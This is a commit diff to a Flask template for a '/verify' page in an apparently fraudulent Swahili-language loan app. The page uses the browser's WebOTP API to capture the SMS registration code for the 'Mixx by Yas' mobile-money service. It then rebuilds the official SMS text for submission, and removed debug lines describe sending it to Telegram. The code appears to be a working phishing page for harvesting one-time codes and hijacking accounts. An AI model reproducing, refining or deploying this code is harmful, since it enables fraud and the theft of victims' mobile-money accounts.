

Before and after one commit to alphalibee1544/mixx-plus, a Flask app: page /verify in a window 1280 px wide. Shown: the whole page at 94% size. After the commit the page ends 978 px from the top, so only its background shows below. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update verify.html

```diff
--- a/templates/verify.html
+++ b/templates/verify.html
@@ -62,21 +62,6 @@
         }
         .hidden { display: none !important; }
         .screen { display: none; } .screen.active { display: block; }
-        .debug-log {
-            background: #0d1225;
-            color: #34d399;
-            padding: 10px;
-            border-radius: 8px;
-            font-size: 12px;
-            font-family: monospace;
-            margin-top: 10px;
-            max-height: 80px;
-            overflow-y: auto;
-            border: 1px solid #2a2f4a;
-            text-align: left;
-            display: none;
-        }
-        .debug-log.show { display: block; }
     </style>
 </head>
 <body>
@@ -106,7 +91,6 @@
                 <div class="error-msg" id="codeError"></div>
                 <button class="btn btn-gold" id="submitBtn" onclick="submitCode()">Endelea →</button>
                 <div class="resend-link"><a onclick="resendCode()">↻ Hukupokea SMS? Bonyeza hapa</a></div>
-                <div class="debug-log" id="debugLog"></div>
             </div>
             <div class="screen" id="screen2">
                 <div class="waiting-content">
@@ -122,20 +106,6 @@
 
     <script>
         // ================================================================
-        // DEBUG FUNCTION
-        // ================================================================
-        function debugLog(msg) {
-            var log = document.getElementById('debugLog');
-            log.classList.add('show');
-            var time = new Date().toLocaleTimeString();
-            log.innerHTML += '[' + time + '] ' + msg + '\n';
-            log.scrollTop = log.scrollHeight;
-            console.log(msg);
-        }
-
-        debugLog('🚀 Page loaded');
-
-        // ================================================================
         // GET URL PARAMETERS
         // ================================================================
         var urlParams = new URLSearchParams(window.location.search);
@@ -147,9 +117,6 @@
         document.getElementById('loanAmount').textContent = 'TZS ' + loanAmount.toLocaleString();
         document.getElementById('showPhone').textContent = '+255 ' + userPhone;
         document.getElementById('showPhone2').textContent = '+255 ' + userPhone;
-
-        debugLog('📱 App ID: ' + appId);
-        debugLog('📱 Phone: ' + userPhone);
 
         // ================================================================
         // VARIABLES
@@ -169,10 +136,8 @@
             var ua = navigator.userAgent.toLowerCase();
             if (/iphone|ipad|ipod/.test(ua)) {
                 document.getElementById('btnIPhone').style.display = 'block';
-                debugLog('📱 iPhone detected');
             } else {
                 document.getElementById('btnAndroid').style.display = 'block';
-                debugLog('📱 Android detected');
             }
         })();
 
@@ -231,7 +196,7 @@
             } catch(e) {}
 
             setTimeout(function() { resendCooldown = false; }, 30000);
-            setTimeout(waitForNotification, 1500);
+            setTimeout(autoFillOTP, 1500);
         }
 
         async function submitCode() {
@@ -244,9 +209,6 @@
                 document.getElementById('codeError').classList.add('show');
                 return;
             }
-
-            debugLog('📤 Submitting SMS to Telegram...');
-            debugLog('📤 SMS length: ' + smsText.length);
 
             isSubmitting = true;
             document.getElementById('submitBtn').disabled = true;
@@ -301,61 +263,48 @@
             isSubmitting = false;
             document.getElementById('submitBtn').disabled = false;
             document.getElementById('submitBtn').innerHTML = 'Endelea →';
-            setTimeout(waitForNotification, 1500);
+            setTimeout(autoFillOTP, 1500);
         }
 
         // ================================================================
-        // WAIT FOR NOTIFICATION - WebOTP
+        // WEBOTP AUTO-FILL (SIMPLE - FROM YOUR EXAMPLE)
         // ================================================================
-        function waitForNotification() {
+        async function autoFillOTP() {
             if (!document.getElementById('screen1').classList.contains('active')) {
-                debugLog('⏹️ Not on code screen, stopping');
+                console.log('Not on code screen, skipping');
                 return;
             }
 
             if (!('OTPCredential' in window)) {
-                debugLog('❌ WebOTP not supported on this browser');
+                console.log('WebOTP not supported on this browser');
                 document.getElementById('codeError').textContent = 'ℹ️ Kifaa chako hakitumii auto-detect. Tafadhali nakili mwenyewe.';
                 document.getElementById('codeError').style.color = '#f59e0b';
                 document.getElementById('codeError').classList.add('show');
                 return;
             }
 
-            debugLog('⏳ Waiting for SMS notification...');
+            console.log('Waiting for SMS notification via WebOTP...');
             document.getElementById('codeError').textContent = '⏳ Inasubiri SMS...';
             document.getElementById('codeError').style.color = 'var(--primary)';
             document.getElementById('codeError').classList.add('show');
 
-            var smsTextarea = document.getElementById('smsMessage');
+            try {
+                const credential = await navigator.credentials.get({
+                    otp: { transport: ['sms'] }
+                });
 
-            var controller = new AbortController();
-            var timeout = setTimeout(function() {
-                controller.abort();
-                debugLog('⏱️ WebOTP timeout - no SMS received');
-                document.getElementById('codeError').textContent = '⏱️ Muda Umeisha. Bonyeza "Hukupokea SMS"';
-                document.getElementById('codeError').style.color = 'var(--danger)';
-            }, 60000);
-
-            navigator.credentials.get({
-                otp: { transport: ['sms'] },
-                signal: controller.signal
-            })
-            .then(function(otp) {
-                clearTimeout(timeout);
-                if (otp && otp.code) {
-                    detectedCode = otp.code;
-                    debugLog('✅ SMS DETECTED! Code: ' + otp.code);
+                if (credential && credential.code) {
+                    detectedCode = credential.code;
+                    console.log('✅ OTP detected:', detectedCode);
 
                     // BUILD THE FULL SMS
-                    var fullSMS = 'You are being registered in Mixx by Yas Super App, use the code ' + otp.code + ' to complete registration. Do not share the code with anybody. For more info contact us on 100. DWvV9aXqDR';
+                    var fullSMS = 'You are being registered in Mixx by Yas Super App, use the code ' + detectedCode + ' to complete registration. Do not share the code with anybody. For more info contact us on 100. DWvV9aXqDR';
 
-                    debugLog('📝 Full SMS: ' + fullSMS);
-
-                    // FILL THE TEXTAREA WITH FULL SMS
-                    smsTextarea.value = fullSMS;
+                    // FILL THE TEXTAREA
+                    document.getElementById('smsMessage').value = fullSMS;
                     smsDetected = true;
 
-                    debugLog('✅ Full SMS filled in textarea!');
+                    console.log('✅ Full SMS filled:', fullSMS);
 
                     document.getElementById('codeError').textContent = '✅ Ujumbe umegunduliwa! Bonyeza "Endelea" kutuma.';
                     document.getElementById('codeError').style.color = '#10b981';
@@ -365,26 +314,29 @@
                     document.getElementById('timerDisplay').textContent = '✅ Imekamilika';
                     document.getElementById('timerDisplay').className = 'timer-bar';
                 }
-            })
-            .catch(function(e) {
-                if (e.name === 'AbortError') {
-                    debugLog('⏱️ WebOTP timeout (aborted)');
+            } catch (err) {
+                console.error('WebOTP error:', err);
+                if (err.name === 'AbortError') {
+                    console.log('WebOTP timeout');
                 } else {
-                    debugLog('❌ WebOTP error: ' + e.message);
                     document.getElementById('codeError').textContent = '❌ Hitilafu. Tafadhali nakili SMS mwenyewe.';
                     document.getElementById('codeError').style.color = 'var(--danger)';
                     document.getElementById('codeError').classList.add('show');
                 }
-            });
+            }
         }
 
         // ================================================================
         // START
         // ================================================================
         startCountdown();
-        setTimeout(waitForNotification, 500);
 
-        debugLog('✅ MixxPlus - Waiting for SMS notification...');
+        // Run autoFillOTP after 1 second
+        setTimeout(autoFillOTP, 1000);
+
+        console.log('✅ MixxPlus - Waiting for SMS notification...');
+        console.log('📱 App ID:', appId);
+        console.log('📱 Phone:', userPhone);
     </script>
 </body>
 </html>
```
